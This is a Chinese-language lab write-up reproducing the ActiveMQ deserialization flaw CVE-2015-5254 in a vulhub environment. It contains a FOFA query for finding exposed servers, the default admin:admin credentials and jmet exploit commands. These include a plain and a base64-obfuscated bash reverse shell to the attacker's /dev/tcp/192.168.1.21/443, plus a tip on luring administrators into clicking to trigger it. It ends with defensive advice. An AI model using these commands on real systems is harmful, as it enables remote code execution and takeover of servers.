# ActiveMQ反序列化漏洞

## 漏洞编号

```
CVE-2015-5254
```


## 漏洞简介

Apache ActiveMQ是美国阿帕奇软件基金会所研发的一套开源的消息中间件，它支持Java消息服务，集群，Spring Framework等。由于ActiveMQ是一个纯Java程序，因此只需要操作系统支持Java虚拟机，ActiveMQ便可执行。

Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞

该漏洞源于程序没有限制可在代理中序列化的类

远程攻击者可借助特指的序列化的Java Message Service(JMS)ObjectMessage

对象利用该漏洞执行任意代码


## 受影响版本

```
Apache ActiveMQ 5.13.0之前5.x版本
```


https://www.cvedetails.com/cve/CVE-2015-5254/


## FOFA语法

```
app="APACHE-ActiveMQ"&&port="8161"&&status_code="200"&&country="CN"
```


## ActiveMQ指纹信息

```
端口：
	8161
服务器：
	jetty
banner：
	server:activemq
	magic:activemq
	realm="activemqrealm"
头部：
	realm="activemqrealm"
```


## ActiveMQ默认用户名和密码

```
admin：admin
```


## 默认登陆地址

http://localhost:8161/admin/


## 利用过程

构造可执行命令的序列化对象作为一个消息，发送给靶机的61616端口

访问靶机的Web端管理页面，读取消息，从而触发命令


通过web页面访问消息并触发漏洞这个过程需要管理员权限，在没有密码的情况下，我们可以通过诱导管理员访问我们的链接以触发，或者伪装成其他合法访问需要的消息，等待客户端访问的时候触发


## 环境搭建

```
vulhub环境：
docker-compose up -d
```



启动环境


```
ps
```



查看环境状态


## 相关工具

jmet

[matthiaskaiser/jmet: Java Message Exploitation Tool](https://github.com/matthiaskaiser/jmet)

Github相关用法

```
$ java -jar jmet-0.1.0-all.jar
ERROR d.c.j.JMET [main] 配置错误：缺少必需的选项：[-C 自定义脚本利用模式, -Y 反序列化利用模式, -X XXE利用模式], [-T 主题名称, -Q 队列名称], I
用法：jmet [主机] [端口]
 -C, --Custom <脚本名称>          自定义脚本利用模式
 -f, --filter <脚本名称>          过滤脚本
 -I, --impl <参数>                指定消息队列实现：ActiveMQ | Artemis | WebSphereMQ | Qpid10 | 
                                  Qpid09 | HornetQ | SwiftMQ | RabbitMQ | OpenMQ
 -pw, --password <密码>           认证密码
 -Q, --Queue <名称>               队列名称
 -s, --substitute                 替代模式：使用 §§ 将 ysoserial 的负载名称传递给命令
 -T, --Topic <名称>               主题名称
 -u, --user <用户ID>              认证用户
 -v, --verbose                    运行时启用详细模式
 -X, --XXE <URL>                  XXE（XML外部实体）利用模式
 -Xp, --xxepayload <负载名称>     可选：XXE 负载类型，可选值：EXTERNAL | PARAMETER | DTD
 -Y, --ysoserial <命令>           反序列化利用模式
 -Yp, --payload <负载名称>        可选：Ysoserial 负载类型，可选值：
                                  BeanShell1 | CommonsBeanutils1 | 
                                  CommonsCollections1 | CommonsCollections2 | 
                                  CommonsCollections3 | CommonsCollections4 | 
                                  CommonsCollections5 | Groovy1 | Hibernate1 | 
                                  Hibernate2 | Jdk7u21 | JSON1 | ROME | Spring1 | Spring2
 -Zc, --channel <通道名称>        通道名称（仅适用于 WebSphereMQ）
 -Zq, --queuemanager <名称>       队列管理器名称（仅适用于 WebSphereMQ）
 -Zv, --vhost <名称>              虚拟主机名称（仅适用于 AMQP 经纪人：RabbitMQ | QPid09 | QPid10）
```

首先下载jmet的jar文件，并在同目录下创建一个external文件夹（否则可能会爆文件夹不存在的错误）。

jmet原理是使用ysoserial生成Payload并发送（其jar内自带ysoserial，无需再自己下载），所以我们需要在ysoserial是gadget中选择一个可以使用的，比如ROME。


revershell

[Runtime.exec Payload Generater | AresX's Blog](https://ares-x.com/tools/runtime-exec)


## 漏洞复现

```
攻击机：192.168.1.21
靶机：192.168.1.15
```

访问192.168.1.15:8161



正常访问


```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME 192.168.1.15 61616
```



命令解析

- -Q event
  - -Q指定队列名称，即event
  - -I指定消息队列，即ActiveMQ
  - -s
    - 将ysoserial的负载传递给命令
  - -Y 反序列化利用模式，即命令
  - -Yp 反序列化负载类型，即ROME
  - 最后跟ip和端口


此时会给目标ActiveMQ添加一个名为event的队列


访问

```
192.168.1.15:8161/admin/browse.jsp?JMSDestination=event
```



看到了event队列消息，说明创建成功


验证

```
docker ps
docker exec 64e053330794 ls /tmp
```

发现tmp目录下为空，即我们没有成功创建success文件


因为我们并没有点击该消息触发命令

点击消息触发命令




重新验证

```
docker exec 64e053330794 ls /tmp
```



命令执行成功


尝试getshell

```
攻击机开启监听：
	ncat -lvp 443
```




```
java -jar jmet-0.1.0-all.jar -Q reverse_shell -I ActiveMQ -s -Y "bash -i >& /dev/tcp/192.168.1.21/443 0>&1" -Yp ROME 192.168.1.15 61616
```




访问

```
http://192.168.1.15:8161/admin/browse.jsp?JMSDestination=reverse_shell
```



点击触发




本地查看，发现反弹shell失败

尝试base64编码

[Runtime.exec Payload Generater | AresX's Blog](https://ares-x.com/tools/runtime-exec)




```
java -jar jmet-0.1.0-all.jar -Q shell -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMjEvNDQzIDA+JjE=}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.1.15 61616
```




访问

```
http://192.168.1.15:8161/admin/browse.jsp?JMSDestination=shell
```



点击触发




成功弹回shell




## 防御方式

- 升级ActiveMQ版本
- 限制消息类型：在ActiveMQ的配置中限制可接受的消息类型，避免接受位置的或不受信任的消息类型
- 加强访问控制：配置防火墙规则以限制对ActiveMQ服务器的访问，确保只有收新人的用户或系统能够发送消息到ActiveMQ服务器
- 监控和日志记录：启用ActiveMQ的监控和日志记录功能，以便及时发现并相应可疑活动